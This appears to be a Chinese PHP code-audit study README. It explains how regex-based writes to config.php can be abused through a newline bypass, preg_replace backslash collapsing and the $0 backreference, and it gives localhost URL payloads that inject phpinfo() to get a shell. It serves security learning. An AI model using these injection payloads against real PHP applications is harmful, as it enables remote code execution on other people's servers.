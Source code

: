 # PHP代码审计

放一些PHP代码审计学习中遇到的很有意思的片段

## file-config-vulnerability.php

### 利用换行符来绕过正则匹配的问题

 正则匹配内容:

```
$option=''
```

任意内容里面是可以包含转移符 \ 的,所以我们利用下面的方法:

```
http://127.0.0.1/index.php?option=a';%0aphpinfo();//
http://127.0.0.1/index.php?option=a
```

执行完第一个之后,config.php中的内容为:

```
<?php
$option='a\';
phpinfo();//';
```

 但是这样并没有办法执行phpinfo(),因为我们插入的 单引号 被转移掉了,所以phpinfo()还是在单引号的包裹之内.

我们再访问下面这个

```
http://127.0.0.1/index.php?option=a
```

因为正则 .* 会匹配行内的任意字符无数次.所以 \ 也被认为是其中的一部分,也会被替换掉,执行完之后,config.php中的内容为:

```
<?php
$option='a';
phpinfo();//';
```

转义符就被替换掉了,就成功的getshell.

 

### 利用 preg_replace函数的问题

用preg_replace()的时候replacement(第二个参数)也要经过正则引擎处理，所以正则引擎把`\\`转义成了`\`

也就是说如果字符串是`\\\'`,经过 preg_replace()的处理,就变为 `\\'`,单引号就逃出来了.

payload

```
http://127.0.0.1/index.php?option=a\';phpinfo();//
```

config.php变为:

```
<?php
$option='a\\';phpinfo();//';
```

道理就是 `a\';phpinfo();//` 经过 addslashes()处理之后,变为`a\\\';phpinfo();//` 然后两个反斜杠被preg_replace变成了一个,导致单引号逃脱.

 

### 利用 preg_replace() 函数的第二个参数的问题 

replacement中可以包含后向引用`\\n` 或(php 4.0.4以上可用)$n，语法上首选后者。 每个 这样的引用将被匹配到的第n个捕获子组捕获到的文本替换。 n 可以是0-99，`\\0`和$0代表完整的模式匹配文本。

payload

```
http://127.0.0.1/test/ph.php?option=;phpinfo();
http://127.0.0.1/test/ph.php?option=$0
```

执行第一条后config.php的内容为:

```
<?php
$option=';phpinfo();';
```

再执行第二条后config.php的内容为:

```
<?php
$option='$option=';phpinfo();';';
```
